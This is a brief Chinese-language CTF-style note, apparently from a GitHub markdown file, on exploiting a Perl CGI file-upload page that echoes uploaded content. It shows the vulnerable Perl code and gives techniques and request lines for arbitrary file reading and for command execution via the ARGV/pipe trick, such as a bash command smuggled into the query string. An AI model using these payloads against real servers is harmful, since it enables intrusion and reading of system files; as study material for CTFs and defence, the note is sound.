

## **perl**
```
/cgi-bin/file.pl

一个文件上传页面，
上传后回显。

代码类似使用：
use strict;
use warnings; 
use CGI;
my $cgi= CGI->new;
if ( $cgi->upload( 'file' ) ) { 
    my $file= $cgi->param( 'file' );
     while ( <$file> ) { print "$_"; }
}
```
### **文件读取**
文件上传抓包，修改包加入ARGV部分(将上传的文件类型及文件内容处复制再粘贴一行，将filename去掉，然后内容填入ARGV)
再url后面加上路径，即可读取。



### **命令执行**
文件上传抓包，修改包加入ARGV部分(将上传的文件类型及文件内容处复制再粘贴一行，将filename去掉，然后内容填入ARGV)
```
POST /cgi-bin/file.pl?/bin/bash%20-c%20ls${IFS}/| HTTP/1.1


/cgi-bin/file.pl?ls%20-l%20/%20|
```